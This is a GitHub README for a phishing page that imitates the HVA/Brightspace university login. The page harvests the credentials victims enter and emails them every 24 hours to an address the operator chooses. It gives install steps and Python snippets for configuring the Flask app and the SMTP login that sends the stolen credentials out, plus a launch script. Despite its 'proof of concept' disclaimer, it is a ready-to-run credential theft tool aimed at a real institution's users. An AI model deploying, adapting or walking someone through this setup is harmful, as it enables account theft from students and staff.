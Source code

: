 # HVA-Brightspace-login-phishing-site
A HVA / Brightspace login fishing page that stores the harvested credentials and sends a mail every 24 hours with the credentials to your email


# HVA / Brightspace Login phishing page

This phishing page is a proof of concept and should not be used for any illegal activity!

![image](https://user-images.githubusercontent.com/99695922/207714240-ba838eb2-645c-4b43-85fa-1a69ddc4bb4e.png)


The phishing page works on desktop and mobile. Every 24 hours it will send a email with the harvested credentials to  a email of your liking.

This was made with [Tailwind](https://tailwindcss.com/) for the front-end and [Flask](https://flask.palletsprojects.com/en/2.2.x/) for the back-end.


## Installation

Clone this repository.

Then use the package manager [pip](https://pip.pypa.io/en/stable/) to install packages.

```bash
pip install -r requirements.txt
```

## Setup
Open app.py

change YOUR_SECRET_KEY to a secret key of your liking.

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'YOUR_SECRET_KEY'
```
Change FROM_EMAIL to the email you are going to send then mail from.
Change TO_EMAIL to the email you are going to send the email to.

```python
    email = EmailMessage()
    email['Subject'] = f'information {datetime.datetime.now()}'
    email['From'] = 'FROM_EMAIL'
    email['To'] = 'TO_EMAIL'
```

Change FROM_EMAIL to the email you are going to send then mail from.

Change FROM_EMAIL_PASSWORD to the email password you are going to send the email from. Make sure the password you provided is compatible with the [SMTP servers](https://support.leapwork.com/s/article/HowcanIgetmySMTPserverPortusernamepassword633070924e681) from your email provider!

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
        s.starttls()
        s.login('FROM_EMAIL', 'FROM_EMAIL_PASSWORD')
        s.send_message(email)
```

Change smtp.office365.com to the SMTP server of your provider, if your email provider is Office365 then you can skip this stap.
Change 587 to the port of the SMTP server the email provider uses.
Big ones: [Microsoft](https://support.microsoft.com/nl-nl/office/pop-imap-en-smtp-instellingen-8361e398-8af4-4e97-b147-6c6c4ac95353) , [Gmail](https://support.google.com/a/answer/176600?hl) and [Yahoo](https://help.yahoo.com/kb/SLN4724.html?guccounter=1&guce_referrer=aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS8&guce_referrer_sig=AQAAADrjXz1-m11zrZhIx972CRNXarnhPdnhwhb85biWlHoDK_LTW9LTFNnj4zCxcvZzG0NTwWgTJOGD67JVD1jcXtVi1udPhmZia8U5Aqud5CVQxVaFRz2ZwbLbR8l5fMSoYJSXFV4NBSnk8z2pubhMMWBtSs1mXrzKIJAjjePa9_FL).

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
```


Ones everything is done close and save app.py
then click one the LAUNCH.bat and see for your self!


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
